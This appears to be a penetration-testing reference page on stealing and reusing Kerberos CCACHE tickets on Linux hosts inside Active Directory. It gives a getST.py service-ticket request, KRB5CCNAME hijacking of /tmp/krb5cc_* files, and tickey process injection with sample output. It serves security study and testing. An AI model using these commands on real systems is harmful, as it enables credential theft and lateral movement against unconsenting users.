 # Linux Active Directory

pA linux machine can also be present inside an Active Directory environment.

A linux machine in an AD might be **storing different CCACHE tickets inside files. This tickets can be used and abused as any other kerberos ticket**. In order to read this tickets you will need to be the user owner of the ticket or **root** inside the machine.

### Pass The Ticket

In this page you are going to find different places were you could **find kerberos tickets inside a linux host**, in the following page you can learn how to transform this CCache tickets formats to Kirbi (the format you need to use in Windows) and also how to perform a PTT attack:

```python
proxychains getST.py -spn cifs/coredc.core.cyber.local@CORE.CYBER.LOCAL -dc-ip coredc.core.cyber.local -k -no-pass "CORE.CYBER.LOCAL/COREWEBDL\$@CORE.CYBER.LOCAL"
```

{% content-ref url="../../windows/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### CCACHE ticket reuse from /tmp

> When tickets are set to be stored as a file on disk, the standard format and type is a CCACHE file. This is a simple binary file format to store Kerberos credentials. These files are typically stored in /tmp and scoped with 600 permissions

List the current ticket used for authentication with `env | grep KRB5CCNAME`. The format is portable and the ticket can be **reused by setting the environment variable** with `export KRB5CCNAME=/tmp/ticket.ccache`. Kerberos ticket name format is `krb5cc_%{uid}` where uid is the user UID.

```bash
ls /tmp/ | grep krb5cc
krb5cc_1000
krb5cc_1569901113
krb5cc_1569901115

export KRB5CCNAME=/tmp/krb5cc_1569901115
```

### CCACHE ticket reuse from keyring

Processes may **store kerberos tickets inside their memory**, this tool can be useful to extract those tickets (ptrace protection should be disabled in the machine `/proc/sys/kernel/yama/ptrace_scope`): [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)

```bash
# Configuration and build
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release

[root@Lab-LSV01 /]# /tmp/tickey -i
[*] krb5 ccache_name = KEYRING:session:sess_%{uid}
[+] root detected, so... DUMP ALL THE TICKETS!!
[*] Trying to inject in tarlogic[1000] session...
[+] Successful injection at process 25723 of tarlogic[1000],look for tickets in /tmp/__krb_1000.ccache
[*] Trying to inject in velociraptor[1120601115] session...
[+] Successful injection at process 25794 of velociraptor[1120601115],look for tickets in /tmp/__krb_1120601115.ccache
[*] Trying to inject in trex[1120601113] session...
[+] Successful injection at process 25820 of trex[1120601113],look for tickets in /tmp/__krb_1120601113.ccache
[X] [uid:0] Error retrieving tickets
```